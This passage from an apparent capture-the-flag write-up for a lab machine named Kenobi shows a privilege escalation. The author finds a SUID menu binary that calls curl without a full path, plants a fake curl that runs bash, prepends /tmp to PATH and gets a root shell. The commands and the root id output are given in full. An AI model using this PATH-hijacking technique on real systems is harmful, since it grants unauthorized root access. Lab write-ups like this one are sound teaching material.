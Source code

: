 ```bash
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

One of the binaries, /usr/bin/menu, piqued my interest.

```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Wed, 18 Sep 2024 13:02:02 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html
```

After inspecting the binary with **strings**, I noticed it called the curl command without specifying the full path.

```bash
strings /usr/bin/menu
...
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
...
```

This allowed me to exploit **path hijacking** by replacing the curl binary with a malicious one.  
After running the menu script, I successfully achieved a root shell.

```bash
kenobi@kenobi:/tmp$ echo /bin/bash > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
root@kenobi:/tmp# whoami
root
```
